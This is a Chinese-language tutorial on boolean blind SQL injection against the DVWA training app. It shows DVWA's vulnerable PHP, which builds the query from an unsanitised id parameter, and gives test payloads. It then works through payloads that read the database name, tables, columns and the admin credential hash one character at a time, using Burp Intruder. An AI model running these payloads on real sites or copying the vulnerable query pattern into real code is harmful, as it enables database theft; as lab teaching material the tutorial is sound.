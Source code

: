 ## 0x00 什么是盲注？
一般情况下，网页可能不会返回任何数据库内容，所以不能使用联合查询将敏感数据显示在页面，但还是可以通过构造SQL语句来获取数据。

## 0x01 boolean布尔型盲注
从代码中我们可以看到，对于存在于数据库中的id，会返回：User ID exists in the database。 对于不存在于数据库中的id，会返回：User ID is MISSING from the database。 我们并不能直接从网页的回显位置来获取数据库数据，只能知道是否存在，对于获取信息有限的情况下，盲注是很好的注入手段。  
盲注的方式有2种：1.布尔型盲注；2.延时注入；这里我记录了布尔型boolean盲注注入方法。
```php
<?php
if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
## 0x02 判断是否存在注入点的方法
在判断注入点时，先确定是整型注入还是字符型注入，确定如何闭合SQL表达式，然后利用简单payload测试。
```sql
'1' and '1'='1'
'1' and '1'='2'
'1' and sleep(5) --+
```
测试是否存在注入点的paylaod解释：如果存在注入，第一个和第二个返回结果不一样，第一个是正常返回查询结果，第二个返回与正确逻辑相反的结果。sleep是SQL中的内置函数，sleep(10)即为系统睡眠10秒在做出反应。  
通过以上两个检测方法，可以判断该接口是否存在注入漏洞。
## 0x03 布尔注入攻击
为何会有布尔注入攻击这种技术？作用是什么？  
当网页不返回任何数据库内容的时候，就不能通过联合查询注入获取数据库敏感信息，就需要用正确或错误的逻辑来构造SQL语句，进行进一步信息判断。
```bash
mysql> select if(2>1,true,false);
+--------------------+
| if(2>1,true,false) |
+--------------------+
|                  1 |
+--------------------+

mysql> select if(2<1,4,5);
+-------------+
| if(2<1,4,5) |
+-------------+
|           5 |
+-------------+
```
布尔型盲注需要用到SQL语句中if的判断逻辑，表达式：if（（表达式1），1，0）；如果表达式1成立，则返回1，否则返回0。  
同理也可以用if语句来判断是否存在注入点：
```sql
'1' and if(2<1,1,0) --+
```  
页面返回错误，这个语句等价于 1 and 0，真 and 假，结果为假，整个SQL语句id值也是0，所以没有记录，返回错误页面。  
这个语句的查询逻辑是，where后包含了2个条件用and连接起来，只有当前后条件都为真时，才会返回内容，后者如果为假，则where会判断后者逻辑为假，导致查询到的结果为空。
```sql
select * from users where user_id='1' and if(2<1,1,0); #empty

select * from users where user_id='1' and if(2>1,1,0); #admin用户数据被查询显示出来
select * from users where (user_id='1' and if(2>1,1,0)); #admin用户数据被查询显示
```
## 0x04 布尔型盲注获取数据库敏感信息
在黑盒的环境下，通过构造SQL注入语句，根据页面返回特征来获取敏感数据。  
布尔盲注需要用到的第二个函数就是字符串截取函数substring(x,y,z)，其中第1个参数x表示要被截取的字符串，第2个参数y表示开始截取的位置，第3个参数z表示截取的长度。
```bash
mysql> select substring(database(),1,1);
+---------------------------+
| substring(database(),1,1) |
+---------------------------+
| d                         |
+---------------------------+

mysql> select if(substring(database(),1,1)='d',1,0);
+---------------------------------------+
| if(substring(database(),1,1)='d',1,0) |
+---------------------------------------+
|                                     1 |
+---------------------------------------+
```
按照上述思路，可以测试26个英文字母的大小写和数据库名允许的特殊字符，来把数据库名称的每个字符测出来。上面的逻辑是判断数据库名的第一个字符是不是小写字母d，如果是的话返回1，不是返回0。  
接着判断第二个字符，将substring函数的第二个参数改成2，因为要截取第二个字符，第二个字符为v。

```bash
mysql> select if(substring(database(),2,1)='v',1,0);
+---------------------------------------+
| if(substring(database(),2,1)='v',1,0) |
+---------------------------------------+
|                                     1 |
+---------------------------------------+
```
以此类推，再往后依次判断正确数据库名称的字符后拼接，即可获取完整的数据库名。
## 0x05 在黑盒模式下进行布尔注入
黑盒模式下进行布尔盲注的一般流程是：
1. 找到并判断注入点；
2. 获取数据库的长度；
3. 根据长度查询库名；
4. 通过库名再查询表名；
5. 通过表名查询字段；
6. 最后查询某个表中指定的敏感数据；  

我们通过上述步骤已经找到了注入点，现在进行第二步————判断数据库长度。有以下三种方法，可以利用大于或小于判断数据库长度范围，然后利用等号进行数据库名称长度确定。
```sql
select if(length(database())=4,1,0);

select if(length(database())>3,1,0);

select if(length(database())<5,1,0);
```
得到库名长度为4，下面开始获取数据库名称，每次都要与下面这些字符进行比较：  
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_  
```sql
select if(substring(database(),1,1)='a-zA-Z==',1,0);
```
可以获得数据库名的第一个字符是d，然后利用这个方法得到数据库名为dvwa。  
这里可以写脚本批量测试，也可以用burp的Cluster bomb模块测试。  
放在intruder爆破模块中，把第一个变量设置为substring的第二个参数，就是一点一点往后走，从1到4，第二个参数即为等号后面的字符，挨个判断是不是当前字符，返回码为200的表示请求成功，即为数据库名称的第n个位置是字符x。

## 0x06 盲注结合burp获取数据库信息
根据数据库名：dvwa，接下来获取表名。  
获取表名的payload：
```sql
select * from users where user_id='1' and if (substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1),1,1)='g',1,0);
```
根据查询页面是否能够正常返回，判断dvwa数据库的每个数据表的名称，一位字符一位字符的进行判断，依次类推，把每个表名获取到。
```sql
mysql> select * from users where user_id='1' and if (substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1),1,1)='g',1,0);
+---------+------------+-----------+-------+----------------------------------+
| user_id | first_name | last_name | user  | password                         |
+---------+------------+-----------+-------+----------------------------------+
|       1 | admin      | admin     | admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+------------+-----------+-------+----------------------------------+
1 row in set (0.00 sec)

mysql> select * from users where user_id='1' and if (substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1),1,1)='u',1,0);
Empty set (0.00 sec)

mysql> select * from users where user_id='1' and if (substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1),1,1)='u',1,0);
+---------+------------+-----------+-------+----------------------------------+
| user_id | first_name | last_name | user  | password                         |
+---------+------------+-----------+-------+----------------------------------+
|       1 | admin      | admin     | admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+------------+-----------+-------+----------------------------------+
```  
得到表名之后再获取字段名，此时需要利用 information_schema 这个数据库 中的COLUMNS 表。修改payload如下：
```sql
select * from users where user_id='1' and if (substring((select COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA='dvwa' and TABLE_NAME='users' limit 0,1),1,1)='a',1,0);
# Empty set (0.00 sec)

select * from users where user_id='1' and if (substring((select COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA='dvwa' and TABLE_NAME='users' limit 0,1),1,1)='u',1,0);
# 正常显示查询内容
```
知道表中字段后，可能就知道了哪些字段中存储了敏感信息，比如username和password等，接下来获取表中敏感信息（例如用户名和密码）。我们首先要知道用户名和密码的长度，然后才能每一位的去获取。

```sql
# 判断长度为38
select * from users where user_id='1' and if ((select length(concat(user,0x3a,password)) from users limit 0,1)=38,1,0);

# 判断第一个字符为a
select * from users where user_id='1' and if (substring((select concat(user,0x3a,password) from users limit 0,1),1,1)='a',1,0);
```  
依次类推，得到admin的账号和密码：admin:5f4dcc3b5aa765d61d8327deb882cf99。